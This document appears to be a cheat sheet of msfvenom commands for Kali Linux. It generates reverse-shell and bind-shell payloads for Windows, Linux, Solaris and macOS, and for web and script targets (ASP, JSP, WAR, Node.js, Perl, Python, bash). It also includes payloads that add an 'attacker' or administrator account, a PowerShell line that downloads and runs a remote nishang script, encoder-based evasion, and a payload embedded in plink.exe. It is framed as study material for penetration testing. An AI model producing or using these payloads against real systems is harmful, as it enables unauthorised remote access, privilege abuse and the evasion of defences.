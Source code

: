 
Here are commands to run on kali Linux from msfvenom and their output is described in a Word file with a video explaining it.

1- msfvenom -l payloads #Payloads

2- msfvenom -l encoders

Windows

Reverse Shell

PORT 80

IP address: 10.0.2.15

3- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

LHOST = 10.0.2.15 LPORT= 80

4- msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe

Rhost= 192.168.18.3 IP address of windows as Rhost

5- msfvenom -p windows/adduser USER=attacker PASS=Attacker@123! -f exe > adduser.exe

6- msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe

7- msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

7- msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

8- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exo plinkmeter.exe

Linux

9- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

IP address= 10.0.2.5 Port:80

10- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf

11- msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf

MAC Payloads

Reverse Shell:

12- msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho

13- msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho

14- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx

15- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp

16- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war

17- msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)

18- msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl

19- msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py

20- msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh


